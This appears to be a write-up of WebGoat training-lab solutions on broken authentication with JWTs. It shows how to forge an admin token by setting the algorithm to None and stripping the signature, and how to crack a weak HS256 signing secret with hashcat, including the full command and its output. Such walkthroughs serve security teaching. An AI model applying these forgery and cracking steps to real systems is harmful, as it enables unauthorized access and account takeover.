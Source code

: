 # (A2) Broken Authentication (JWT tokens)

## Lesson 4 - JWT signing
Login as Tom and grab the JWT token from `Set-Cookie` response header:
```
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1ODYxNjAzNTUsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiVG9tIn0.dsugXZYLM8WnyzWAA-CFOXCAzfVn0DwzrlmeY6Bns-Uce9Ez3IMq4SSLbk1YgQWNeg7kchjL9wUIqo6nVg8Sfg
```

We can easily decode the token on https://jwt.io/ (or manually on [Base64URL](http://www.base64url.com/)):
```
Header:
{
  "alg": "HS512"
}

Payload:
{
  "iat": 1586160355,
  "admin": "false",
  "user": "Tom"
}

Signature:
dsugXZYLM8WnyzWAA-CFOXCAzfVn0DwzrlmeY6Bns-Uce9Ez3IMq4SSLbk1YgQWNeg7kchjL9wUIqo6nVg8Sfg
```

Let's make a few changes (`alg` to `None` and `admin` to `true`):
```
Header:
{
  "alg": "None"
}

Payload:
{
  "iat": 1586160355,
  "admin": "true",
  "user": "Tom"
}
``` 

Encode it again with [Base64URL](http://www.base64url.com/), omit the signature completely and use this token
to reset the votes:
```
eyAiYWxnIjogIk5vbmUiIH0.eyAgImlhdCI6IDE1ODYxNjAzNTUsICAiYWRtaW4iOiAidHJ1ZSIsICAidXNlciI6ICJUb20ifQ.
```

## Lesson 5 - JWT cracking
The goal is to crack the given (randomly generated) JWT token:
```
eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTU4NTA4MzgyOCwiZXhwIjoxNTg1MDgzODg4LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.fqAAKhCRC__ZeBKZJkR8zDMmfDJLCYd4YJMrrbVXiJc
```

The token is signed with `HS256` but the password is weak. I chose [hashcat](https://hashcat.net/hashcat/)
which has a built-in support for cracking JWT tokens:
```
$ hashcat -a 0 -m 16500 data/02-broken-auth/jwt-token.txt data/02-broken-auth/google-10000-english.txt
..
eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTU4NTA4MzgyOCwiZXhwIjoxNTg1MDgzODg4LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.fqAAKhCRC__ZeBKZJkR8zDMmfDJLCYd4YJMrrbVXiJc:business
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: JWT (JSON Web Token)
Hash.Target......: eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIE...bVXiJc
Time.Started.....: Fri Mar 27 04:03:58 2020 (1 sec)
Time.Estimated...: Fri Mar 27 04:03:59 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    25384 H/s (8.64ms) @ Accel:384 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4608/14344385 (0.03%)
Rejected.........: 0/4608 (0.00%)
Restore.Point....: 3072/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: adriano -> class08
```
- `-a 0` is for dictionary attack
- `-m 16500` is for JWT token (you can find in help)

The password is `business`. Knowing the password, we can easily modify the and re-sign the token on https://jwt.io/.

Note: _hashcat_ was unable to crack some of the tokens failing on `Token length exception`. This is perhaps
a bug in `hashcat 5.1.0`? I had to try more tokens before succeeding. More people are having the same issue.